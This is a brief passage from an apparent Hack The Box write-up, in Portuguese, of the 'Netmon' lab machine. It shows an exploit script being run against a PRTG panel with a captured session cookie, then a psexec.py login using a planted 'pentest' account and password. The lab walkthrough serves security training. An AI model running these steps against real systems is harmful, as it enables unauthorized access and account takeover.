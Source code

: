 > ./exploit.sh -u http://10.10.10.152 -c "_ga=GA1.4.118143135.1589685620; OCTOPUS1813713946=ezc0NjBDNEEzLTZDMEUtNEYzOC04NUMyLTUzNDhCRTBCNDcwOH0%3D; _gat=1"

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-netmon/Netmon_exp4.png)

## Com o `psexec.py` conseguimos acesso à máquina

> psexec.py pentest@10.10.10.152
> P3nT3st!

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-netmon/Netmon_final.png)
